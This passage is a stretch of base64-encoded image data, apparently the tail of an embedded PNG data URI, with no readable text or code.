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)

